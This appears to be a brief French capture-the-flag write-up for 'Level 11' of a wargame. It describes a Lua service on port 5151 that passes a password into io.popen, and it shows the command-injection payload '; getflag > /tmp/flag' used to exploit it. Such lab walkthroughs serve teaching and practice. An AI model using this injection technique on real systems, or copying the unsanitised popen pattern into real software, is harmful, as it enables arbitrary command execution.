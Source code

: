 # Level 11

---

- Nous avons cette fois ci un script lua qui ecoute sur le port 5151, nous lancons donc la commande suivante :

```bash
nc localhost 5151
```

- Le programme demande ensuite un mot de passe qui est ensuite utilise ainsi:
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

- io.popen vas ouvrir et lancer une commande dans un terminal, on peut donc en abuser ainsi:
```bash
; getflag > /tmp/flag
```

- Il suffit simplement de lire ensuite le fichier ainsi genere.
